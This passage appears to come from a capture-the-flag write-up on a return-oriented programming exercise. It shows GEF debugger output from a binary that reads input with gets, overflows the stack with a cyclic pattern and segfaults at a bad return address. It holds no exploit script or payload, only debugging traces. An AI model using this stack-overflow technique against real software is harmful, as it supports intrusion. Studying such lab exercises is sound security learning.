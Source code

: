 ```

code:x86:64 ────
     0x400641 <main+32>        mov    rdi, rax
     0x400644 <main+35>        call   0x4004f0 <gets@plt>
     0x400649 <main+40>        leave  
 →   0x40064a <main+41>        ret    
   ↳    0x4004a9 <_init+25>       ret    
        0x4004aa                  add    BYTE PTR [rax], al
```

After I continue, the program segfaults:
It looks like `0x00007fffffffde00` was at the top of the stack when the program returned, which did not point to valid instructions
```
gef➤  $ c
Continuing.


Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffde00 in ?? ()

registers ────
$rax   : 0x1               
$rbx   : 0x00007fffffffdea8  →  0x00007fffffffe21e  →  "/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop"
$rcx   : 0x00007ffff7ec2b00  →  0x5877fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffddc0  →  0x00007fffffffdea8  →  0x00007fffffffe21e  →  "/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop"
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00007ffff7f9f803  →  0xfa0a30000000000a ("\n"?)
$rdi   : 0x00007ffff7fa0a30  →  0x0000000000000000
$rip   : 0x00007fffffffde00  →  0x0000000000000000
$r8    : 0x00000000006022e9  →  0x0000000000000000
$r9    : 0x0               
$r10   : 0x1000            
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdeb8  →  0x00007fffffffe248  →  "SHELL=/usr/bin/zsh"
$r14   : 0x0               
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000

stack ────
0x00007fffffffddc0│+0x0000: 0x00007fffffffdea8  →  0x00007fffffffe21e  →  "/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop"     ← $rsp
0x00007fffffffddc8│+0x0008: 0x06d2edb3e0e41585
0x00007fffffffddd0│+0x0010: 0x0000000000000000
0x00007fffffffddd8│+0x0018: 0x00007fffffffdeb8  →  0x00007fffffffe248  →  "SHELL=/usr/bin/zsh"

code:x86:64 ────
 → 0x7fffffffde00                  add    BYTE PTR [rax], al
```
